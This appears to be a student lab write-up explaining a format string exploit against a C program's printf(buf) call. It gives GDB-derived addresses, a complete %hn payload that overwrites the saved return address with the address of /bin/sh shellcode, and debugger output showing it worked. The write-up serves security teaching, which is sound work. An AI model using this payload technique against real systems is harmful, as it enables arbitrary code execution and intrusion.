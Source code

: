 # Question 4: Antares Write-up
## Main Idea
#### (A description of the vulnerability)
The code is vulnerable because no format string is passed into ```printf(buf)``` and we can control ```buf```. We can pass in format string specifiers into ```buf``` where we can read and write from memory and take control of the program. More specifically, we overwrite the rip of ```calibrate``` with the address of our malicious shellcode after which we get the program to do what we want it to do. 
```
    printf(buf);
```
This is a format string vulnerability.

## Magic Numbers
#### (How any relevant “magic numbers” were determined, usually with GDB)
We first determine the address of the shellcode (0xffffd78a). This was done by invoking GDB, setting breakpoint at line 15 and printing out the ```argv[1]```.
```
(gdb) p argv[1]
$22 = 0xffffd78a "j2X̀\211É\301jGX̀1\300Ph//shh/binT[PS\211\341\061Ұ\v̀"
(gdb) x/2wx 0xffffd78a
0xffffd78a:     0xcd58326a      0x89c38980
```
We then find the address of ```buf``` (0xffffd570) and rip of ```calibrate``` (0xffffd55c). This is done running GDB and setting breakpoint at line 8.
```
(gdb) i f
Stack level 0, frame at 0xffffd560:
 eip = 0x8049214 in calibrate (calibrate.c:7); saved eip = 0x804928f
 called by frame at 0xffffd610
 source language c.
 Arglist at 0xffffd558, args: buf=0xffffd570 "AAAA____AAAA____%0u%hn%0u%hn\n"
 Locals at 0xffffd558, Previous frame's sp is 0xffffd560
 Saved registers:
  ebp at 0xffffd558, eip at 0xffffd55c
```
Finally, we calculate the number of words we need to move to point the arg[i] pointer of ```printf``` to start of ```buf```. This was done through taking the difference between the address of start of ```buf``` (0xffffd570) and rip of ```printf``` (0xffffd52c). 0xffffd570 - 0xffffd52c = 44 in hex = 68 in decimal. 68 / 4 = 17 words. Since initially the arg[i] pointer of ```printf``` starts 8 bytes above rip of ```printf``` we subtract 2 words from 17. Thus we need to skip 15 words before the arg[i] pointer reaches start of ```buf```.
```
(gdb) x/16x buf
0xffffd570:     0x41414141      0xffffd55c      0x41414141      0xffffd55e
0xffffd580:     0x63256325      0x63256325      0x63256325      0x63256325
0xffffd590:     0x63256325      0x63256325      0x63256325      0x35256325
0xffffd5a0:     0x37343135      0x6e682575      0x33303125      0x25753735

(gdb) si
printf (
    fmt=0xffffd570 "AAAA\\\325\377\377AAAA^\325\377\377%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%55147u%hn%10357u%hn\n") at src/stdio/printf.c:8
(gdb) i f
Stack level 0, frame at 0xffffd530:
 eip = 0x8049abe in printf (src/stdio/printf.c:8); saved eip = 0x804922f
 called by frame at 0xffffd560
 source language c.
 Arglist at 0xffffd528, args:
    fmt=0xffffd570 "AAAA\\\325\377\377AAAA^\325\377\377%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%55147u%hn%10357u%hn\n"
 Locals at 0xffffd528, Previous frame's sp is 0xffffd530
 Saved registers:
  eip at 0xffffd52c
```

## Exploit Structure
#### (A description of your exploit structure)
We essentially want to overwrite the rip of ```calibrate``` with the address of shellcode. This is done in multiple parts:
1. First, skip past 15 words to point arg[i] pointer of ```printf``` to the start of ```buf``` because that is where we can control the input. 
2. We then print out 0xd78a number of bytes to be able to overwrite the rip of ```calibrate``` with the address of the shellcode. We then write to the memory at 0xffffd55c using %hn.
3. After, we print out remaining bytes to reach 0xffff (0xffff - 0xd78a) because we want to complete the address of shellcode by writing it to the second half of rip of calibrate at 0xffffd55e to complete the overwrite. We wrote to memory using %hn instead of %n because 0xffffd78a = 4294956937 in decimal is a lot of bytes to print out and write to which can cause the program to crash. So we split it in half 0xffff = 65535 and 0xd78a = 55178. 

This causes the ```calibrate``` funciton to start executing the shellcode when it returns. 

## Exploit GDB Output
#### (GDB output demonstrating the before/after of the exploit working)
When we ran GDB after inputting the malicious exploit string, we got the following output:
```
(gdb) i f
Stack level 0, frame at 0xffffd560:
 eip = 0x8049232 in calibrate (calibrate.c:9); saved eip = 0xffffd78a
 called by frame at 0xffffd600
 source language c.
 Arglist at 0xffffd558, args:
    buf=0xffffd570 "AAAA\\\325\377\377AAAA^\325\377\377%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%55147u%hn%10357u%hn\n"
 Locals at 0xffffd558, Previous frame's sp is 0xffffd560
 Saved registers:
  ebp at 0xffffd558, eip at 0xffffd55c
```
The rip of ```calibrate``` at 0xffffd55c is successfully overwritten with the address of shellcode (0xffffd78a). 